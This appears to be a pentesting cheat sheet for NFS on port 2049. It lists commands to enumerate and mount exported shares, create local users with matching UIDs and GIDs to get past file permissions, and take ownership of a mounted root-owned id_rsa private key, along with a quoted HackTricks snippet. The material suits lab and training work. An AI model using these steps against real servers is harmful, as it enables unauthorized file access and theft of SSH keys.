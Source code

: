 NFS Port 2049

#### Enumeration

````
showmount $ip
showmount -e $ip
````

##### Mounting

````
sudo mount -o [options] -t nfs ip_address:share directory_to_mount
mkdir temp 
mount -t nfs -o vers=3 10.11.1.72:/home temp -o nolock
````

##### new user with new permissions

````
sudo groupadd -g 1014 <group name>
sudo groupadd -g 1014 1014
sudo useradd -u 1014 -g 1014 <user>
sudo useradd -u 1014 -g 1014 test
sudo passwd <user>
sudo passwd test
````

##### Changing permissions

The user cannot be logged in or active
````
sudo usermod -aG 1014 root
````

##### Changing owners

````
-rw------- 1 root root 3381 Sep 24  2020 id_rsa
````
````
sudo chown kali id_rsa
````
````
-rw------- 1 kali root 3381 Sep 24  2020 id_rsa
````


##### Hacktricks

````
    #apt install nfs-common
    showmount 10.10.10.180      ~or~showmount -e 10.10.10.180
    should show you available shares (example /home)

    mount -t nfs -o ver=2 10.10.10.180:/home /mnt/
    cd /mnt
    nano into /etc/passwd and change the uid (probably 1000 or 1001) to match the owner of the files if you are not able to get in

    https://book.hacktricks.xyz/pentesting/nfs-service-pentesting
````
